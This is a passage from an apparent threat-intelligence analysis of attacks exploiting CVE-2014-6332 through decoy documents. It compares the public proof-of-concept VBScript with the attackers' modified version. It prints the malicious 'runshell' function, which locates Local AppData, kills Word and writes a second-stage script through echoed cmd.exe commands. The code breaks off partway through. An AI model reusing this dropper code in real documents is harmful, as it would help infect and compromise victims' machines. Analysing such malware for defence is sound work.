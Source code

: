 Figure 1 Decoy document containing written application form

Figure 2 Decoy document containing the invitation and agenda for event
Exploiting CVE-2014-6332
The threat actors attempted to exploit CVE-2014-6332 using the POC code available in the wild. The POC code contains inline comments that explain how the malicious VBScript exploits this vulnerability, so instead of discussing the malicious script or exploit itself, we will focus on the portions of the script that the threat actors modified.
The actors removed the explanatory comments from the VBScript and made slight modifications to the POC code. The only major functional difference between the POC and the VBScript involved adding the ability to extract and run both a decoy document and payload. Figure 3 and 4 compare the differing “runshell” command within the POC and the malicious documents used in this attack. The code in Figure 3 shows that the POC does nothing more than launch the notepad.exe application upon successful exploitation. Figure 4 shows the malicious document creating a file named “ss.vbs” that it writes a VBScript to using a series of “echo” statements. After writing the VBScript, the malicious document executes the “ss.vbs” file.





function runshell()
  On Error Resume Next
  set shell=createobject("Shell.Application")
  shell.ShellExecute "notepad.exe"
end function




12345

function runshell()  On Error Resume Next  set shell=createobject("Shell.Application")  shell.ShellExecute "notepad.exe"end function






Figure 3 Code block containing “runshell” function in CVE-2014-6332 proof-of-concept VBScript






function runshell()
  On Error Resume Next
  set objshell= Createobject("WScript.Shell")
  strValue = objshell.RegRead("HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders\Local AppData")
  ename = "rundll32"","""""""&strValue&"\mm.dll"""",Setting"
  outfile1= strValue&"\mm.dll"
  bs = strValue&"\ss.vbs"
  dn= strValue&"\t.doc"
  v=window.location.href
  v=Replace(v,"file:///","",1,1,1)
  v=Replace(v,"?.html","",1,1,1)
  v=Replace(v,"%20"," ",1)
  v=Replace(v,"/","\",1)            
  cmd = "cmd"
  arg=" /c taskkill  -f -im winword.exe "
  arg1= ""","""
  set shell=createobject("wscript.shell") 
  shell.run "cmd.exe /c ""echo On Error Resume Next >"""&bs&"""  "" ",0,true  
  shell.run "cmd.exe /c ""echo set shell=createobject(""Shell.Application"") >>"""&bs&"""    "" ",0,true
  shell.run "cmd.exe /c ""echo shell.ShellExecute ""cmd"","""&arg&""","""","""",0 >>"""&bs&"""        "" ",0,true
  shell.run "cmd.exe /c ""echo wscript.sleep 3000             >> """&bs&"""  "" ",0,true
  shell.run "cmd.exe /c ""echo dim str                                                                      >> """&bs&"""  "" ",0,true